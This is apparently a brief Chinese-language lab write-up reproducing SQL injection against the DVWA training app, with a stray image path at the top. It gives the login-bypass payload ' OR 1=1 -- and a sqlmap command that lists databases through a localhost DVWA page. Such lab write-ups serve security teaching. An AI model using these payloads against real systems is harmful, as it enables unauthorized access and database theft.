 # SQL注入
# SQL 注入漏洞复现

## 🌐 靶场环境
- DVWA (Security Level: Low)
- 数据库：MySQL
- 工具：Burp Suite + sqlmap

## 🔍 漏洞原理
用户输入的数据没有经过过滤，直接拼接到 SQL 语句中，导致注入。

## 🛠️ 复现过程
1. 输入 `' OR 1=1 --` 到用户名字段  
2. 成功登录管理员账号

## 🧰 自动化利用
```bash
sqlmap -u "http://localhost/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=xxx" --dbs